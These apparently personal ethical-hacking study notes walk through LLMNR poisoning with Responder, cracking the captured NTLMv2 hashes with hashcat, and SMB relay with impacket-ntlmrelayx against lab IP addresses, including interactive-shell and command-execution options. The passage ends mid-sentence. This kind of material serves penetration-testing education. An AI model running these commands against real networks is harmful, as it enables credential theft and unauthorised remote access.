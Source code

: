 ## 1. LLMNR Poisoning - NC

#### Tools
* **Responder**
* **Hashcat**

#### Attack
```
sudo responder -I eth0 -dwv 
```

#### Event
* When any user in tries to connect to another user or file share which the domain server can not resolve to any location, responder sends poisoned response and replies on behalf of the server that it knows where the destination is and asks for hash to authenticate and referred to the location which results in our output **(NTLMV2 Hash)**
#### Output 
* NTLM V2 hash
* Use [Hashcat](https://github.com/lucifugous/Practical-Ethical-Hacking-Notes/blob/main/Practical%20Ethical%20Hacking/Hashcat/Hashcat.md) to crack plaintext password from the hash :
```
	hashcat -m 5600 hash.txt wordlist.txt
	hashcat -m 5600 hash.txt wordlist.txt --show
```


---

## 2. SMB Relay Attack - NC

#### Tools
- **nmap**
- **Responder**
* **impacket-ntlmrelayx**
* **ntlmrelayx.py**

### Requirement
1. The host needs to have SMB sign in enabled but not enforced/ required. Check with following command 
   ==``` nmap --script=smb2-security-mode.nse -p445 -Pn 192.168.57.135 ```==
2. Responder needs to have ==` HTTP `== and ==` smb `== switched off
   ==``` sudo mousepad /etc/responder/Responder.conf ```==
3. Create a file with target IPs for ease of attack
   ==``` echo "192.168.57.130\n192.168.57.131" > targets.txt ```==

#### Attack
```
	sudo responder -I eth0 -dwv
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support
				OR
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support -i
				OR
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support -c 'whoami'
```
- ==`-i`== option will create a interactive shell instance which can be used to bind with using ==` netcat `== :
